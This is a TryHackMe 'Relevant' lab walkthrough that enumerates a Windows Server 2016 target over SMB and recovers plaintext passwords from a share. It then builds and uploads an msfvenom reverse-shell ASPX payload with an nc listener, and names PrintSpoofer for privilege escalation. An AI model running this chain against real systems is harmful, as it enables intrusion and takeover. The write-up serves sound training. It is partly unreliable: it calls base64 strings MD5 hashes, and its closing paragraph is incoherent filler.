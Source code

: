 ```yaml
---
title: TryHackMe - Relevant Room Walkthrough
author: skullhat
date: '2023-06-17 00:34:00 +0800'
comments: true
categories: [thm, ctf]
tags: [windows, active_directory]
published: true
toc: true
---
```


## Scope

- The client has asked that you secure two flags (no location provided) as proof of exploitation:
	- User.txt
	- Root.txt
- Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first  
- Locate and note all vulnerabilities found
- Submit the flags discovered to the dashboard
- Only the IP address assigned to your machine is in scope
- Find and report ALL vulnerabilities (yes, there is more than one path to root)

## Basic OS Detection

Before diving into any further analysis, it's essential to initiate a preliminary assessment by running a simple ping command on the target host. This initial step can provide valuable information about the host's operating system and network characteristics. Pay close attention to the Time to Live (TTL) value, as it often reveals details about the host's underlying OS.

```bash
ping -c 1 10.10.97.109
PING 10.10.97.109 (10.10.97.109) 56(84) bytes of data.
64 bytes from 10.10.97.109: icmp_seq=1 ttl=127 time=285 ms
```


Based on the basic OS detection performed, it's likely that the target machine is running a Windows operating system. The TTL value by default is 128 in Windows machines.

## Enumeration using nmap

Running nmap with -sC for default scripts, -sV enumerate version of every running service, -T4 is running script faster, -vvv to show me all the open ports as it is found and -oA for outputing all formats in case I want to pass it to another tool.

```bash
nmap -sCV -O -T4 -vvv -oA nmap/relevent 10.10.97.109
```
### Port Scan Results

The scan identified several open ports on the host:

- Port 80/tcp: Open, running Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) with various HTTP methods supported. The web server is likely running on Windows Server and presents itself as "IIS Windows Server."

- Port 135/tcp: Open, running Microsoft Windows RPC.

- Port 139/tcp: Open, running Microsoft Windows netbios-ssn.

- Port 445/tcp: Open, running Windows Server 2016 Standard Evaluation 14393 with the service "microsoft-ds."

- Port 3389/tcp: Open, possibly running ms-wbt-server. An SSL certificate is present with the commonName "Relevant."

### Operating System Detection

The scan provides an educated guess about the host's operating system, suggesting it is likely running Microsoft Windows 2016, 2012, or 2008. However, it notes that the OS fingerprint is not ideal due to a missing closed TCP port.

## SMB Protocol on 445

### Try Anonymous Login
- Try null authentication, but getting nothing. Based on nmap output the `gust` account can access the shares.

```bash
crackmapexec smb 10.10.97.109 -u "" -p "" --shares
```

- When trying `gust` has juicy folder called nt4wrksv with read and write permissions.

```bash
crackmapexec smb 10.10.97.109 -u "gust" -p "" --shares
```

![CME](/assets/img/uploads/20230614185247.png)

- Found `passowrds.txt` then create smb directory and move it there.

``` bash
crackmapexec smb 10.10.176.144 -u "gust" -p "" -M spider_plus
smbclient //10.10.176.144/nt4wrksv -U ""
```

- The users passwords was MD5 hashed.

 ## Crack The Hash
 
`Qm9iIC0gIVBAJCRXMHJEITEyMw==`
`QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk`

The Plain Text
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$                                          

## Getting a shell

1. Try bill account on `evil-winrm` and can not access. Also try on RDP and failed. So it must be fake!
2. found that port 49663 has also a web server and run `gobsuter` to enumerate directories and found one with same `smb` share name! 

- http://10.10.247.115:49663/nt4wrksv/shell.aspx


``` bash
msfvenom -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=10.9.78.51  -f aspx -o shell.aspx 
smbclient //10.10.247.115/nt4wrksv -U 'bob'
smb: \> put shell.aspx
sudo rlwrap nc -lnvp 9001
```

## Local Enumeration 

``` powershell
whoami /all
systeminfo
```

![Privilages](/assets/img/uploads/20230614214734.png)

## PrivEsc

While investigation, I've uncovered the presence of the powerful `SeImpersonatePrivilege`. This privilege opens up an opportunity to leverage a tool called [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0), which takes advantage of Impersonation Privileges. Specifically, it exploits the `SeImpersonatePrivilege` on Windows 10 and Server 2016/2019, allowing for a privilege escalation from LOCAL/NETWORK SERVICE to SYSTEM-level access. This discovery sheds light on a significant security vulnerability within these Windows systems.

![Privilages_is_500](/assets/img/uploads/20230614224001.png)

In the realm of cybersecurity, vigilance is paramount, and it's reassuring to know that your Antivirus (AV) has successfully identified and thwarted a potentially harmful "Potatoes attack." However, as we navigate the intricate landscape of security testing and ethical hacking, occasional roadblocks can arise. Currently, in the world of Kali Linux, there's a particular challenge hindering the execution of the EternalBlue MS17-010 exploit. This exploit, notorious for its role in significant cyber incidents, relies on a specific set of conditions to work effectively. Identifying and overcoming these obstacles is a crucial aspect of the cybersecurity journey, ensuring that we are always prepared to address both detected threats and technical hurdles in our pursuit of a safer digital environment.
